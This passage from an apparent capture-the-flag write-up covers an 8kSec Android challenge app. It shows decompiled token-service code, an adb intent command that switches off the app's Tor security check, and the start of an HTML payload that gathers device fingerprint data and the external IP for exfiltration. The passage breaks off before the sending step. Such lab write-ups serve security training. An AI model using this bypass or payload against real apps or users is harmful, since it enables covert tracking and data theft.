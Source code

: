 Finally, **`TokenClient`** that have a *callback* `getSecurityToken(Callback)`:
- `bindService()` to `com.eightksec.droidview.ITokenService`; above `onServiceConnected` invoke `getSecurityToken()`.
```java
public void getSecurityToken(TokenCallback tokenCallback) {
    this.callback = tokenCallback;
    Intent intent = new Intent("com.eightksec.droidview.ITokenService");
    intent.setPackage("com.eightksec.droidview");
    
    if (this.context.bindService(intent, this.serviceConnection, Context.BIND_AUTO_CREATE) || tokenCallback == null) {
        return;
    }
    
    tokenCallback.onError("Failed to bind to token service");
}
```
### Bypassing Tor Security
First we need **disable/bypass** the **Tor Security** protection.
In the Main Activity, we saw that there are some intents, and passing as extras the **status** of the Tor security.
Active the *toggle* for *Tor Security* and then let's check that using **ADB**
```bash
adb shell am start -n com.eightksec.droidview/.MainActivity \
  -a com.eightksec.droidview.TOGGLE_SECURITY --ez enable_security false \
  --activity-single-top
```
We send the extra (`ez` for boolean values) `enable_security` as *false*.
The `--activity-single-top` is used for test due that we already was launched the application.

And we can notice that **successfully we can bypass the mechanism**.
This can be *exploited* crafting a *malicious application* that send an intent to target app with the *same configuration*.
### Crafting the payload
According to challenge specifications, we must create an `payload.html` file that **theft device information**.
This is the *HTML code that will fulfill one of the requirements 8kSec asks* of us for the challenge: *exfiltrating the IP address, User Agent, and other elements*.
```HTML
<!doctype html>

<meta charset="utf-8">
<title>PoC</title>
<body></body>

<script>
(async () => {
  // avoiding urls
  try { history.replaceState({}, "", "/"); } catch(e){}

  // basic fingerprint from WebView
  const n = navigator;
  const info = {
    ua: n.userAgent,
    lang: n.language,
    platform: n.platform,
    mem: n.deviceMemory || null,
    cores: n.hardwareConcurrency || null,
    screen: { w: screen.width, h: screen.height, p: devicePixelRatio },
    ts: Date.now()
  };

  // get the external IP
  let ip_ext = "unknown";
```